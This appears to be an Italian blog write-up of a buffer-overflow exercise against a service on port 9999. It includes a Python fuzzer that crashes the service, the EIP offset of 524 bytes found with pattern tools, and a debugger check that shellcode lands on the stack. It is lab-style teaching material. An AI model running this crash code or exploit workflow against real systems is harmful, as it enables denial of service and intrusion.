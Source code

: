 {%highlight python %}
#!/usr/bin/env python

import socket
import sys

def fuzz(ip):
    for i in range(30):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((ip, 9999))
            payload = int(i) * ("A"*100)
            s.send(payload+"\r\n")
            print "[*} sending " + str(len(str(payload))) + " bytes"
            s.close

        except socket.error, msg:
            print "Service die at " + str(len(str(payload))) + " bytes"
            sys.exit(1)


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print "[!] usage: " + sys.argv[0] + " ip_address"
        sys.exit(0)
    else:
        fuzz(sys.argv[1])

{%endhighlight %}



Il fuzzer si ferma dopo aver inviato 800 byte quando il demone smette di
rispondere andando in crash. Il messaggio di errore ci dice che abbiamo
sovrascritto il valore di un registro che veniva utilizzato per referenziare
un'area di memoria.

Questo è un buon punto di partenza ma non abbiamo ancora la shell in tasca.

Modificando il mio semplice fuzzer, provo a mandare un buffer di 1000 byte
generato con pattern_create.rb per capire dopo quanti caratteri ho la
sovrascrittura dell'EIP.



Il valore del EIP è 0x35724134. Per calcolare l'offset entro il quale io
sovrascrivo il mio EIP, uso il tool pattern_offset. Ottengo che si trova dopo
524 caratteri.

Il prossimo obiettivo è quello di avere la conferma di poter sovrascrivere
ulteriormente il mio EIP. Modifico quindi il codice del mio fuzzer in maniera
tale da mandare 524 byte di padding e la stringa "BBBB" allo scopo di causare
la sovrascrittura dell'EIP con 0x42424242.



Debugger alla mano posso vedere lo stato dei miei registri. Il mio shellcode
viene copiato nello stack e referenziato dai registri opportuni.

![OllyDBG in azione]({{site.url}}/assets/images/ollydbg.png)
